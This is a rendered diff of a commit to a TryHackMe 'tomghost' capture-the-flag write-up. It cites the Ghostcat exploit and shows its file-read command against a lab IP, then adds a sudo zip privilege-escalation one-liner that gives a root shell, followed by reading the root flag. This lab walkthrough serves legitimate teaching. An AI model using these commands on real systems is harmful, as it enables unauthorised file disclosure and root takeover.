

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/tomghost/readme.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/tryhackme/tomghost/readme.md
+++ b/tryhackme/tomghost/readme.md
@@ -20,7 +20,8 @@ So I would just make a quick browser search for known exploits. <br/>
 
 ![grafik](https://github.com/Aryt3/writeups/assets/110562298/8f316966-b846-4017-a809-1160fd813237)
 
-this leads me to https://www.exploit-db.com/exploits/48143. <br/>
+Now I could take a look around the website and try to find something but there seem to be a lot of exploits for Tomcat. <br/>
+So this leads me to https://www.exploit-db.com/exploits/48143. <br/>
 Using the exploit:
 ```sh
 python2 exploit.py 10.10.46.67 -p 8009 -f WEB-INF/web.xml
@@ -108,0 +185,18 @@ Seems like we got our first flag.
+So seeing we can execute the binary zip as root we can take a look at gtfobins. <br/>
+Here we find several ways to exploit this binary: https://gtfobins.github.io/gtfobins/zip/.
+```sh
+merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
+merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
+  adding: etc/hosts (deflated 31%)
+# whoami
+root
+```
+
+Getting the last flag:
+```sh
+# cd /root/
+# ls
+root.txt  ufw
+# cat root.txt
+THM{Z1P_1S_FAKE}
+```
````
Also changed, not shown: other parts of tryhackme/tomghost/readme.md (+76 -1 lines).
